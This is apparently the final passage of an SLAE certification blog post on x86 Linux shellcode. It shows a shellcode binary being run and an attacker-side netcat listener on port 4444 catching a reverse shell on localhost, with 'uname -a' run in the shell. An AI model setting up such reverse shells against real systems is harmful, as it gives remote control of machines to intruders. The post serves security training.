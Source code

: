 ### Execution ###

```sh
$ ./shellcode
Shellcode Length: 102
```
Great! Now we have to listen on port 4444 as attacker. 

```
$ nc -nvlp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [127.0.0.1] port 4444 [tcp/*] accepted (family 2, sport 48042)
uname -a
Linux ubuntu 3.5.0-51-generic #76-Ubuntu SMP Thu May 15 21:19:44 UTC 2014 i686 i686 i686 GNU/Linux

```

### Pwned. ###

-----------------------------------------------------------------------------
-----------------------------------------------------------------------------

<p style="text-align: justify;">This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: https://www.pentesteracademy.com/course?id=3</p>

Student ID: SLAE-1524

-----------------------------------------------------------------------------
-----------------------------------------------------------------------------
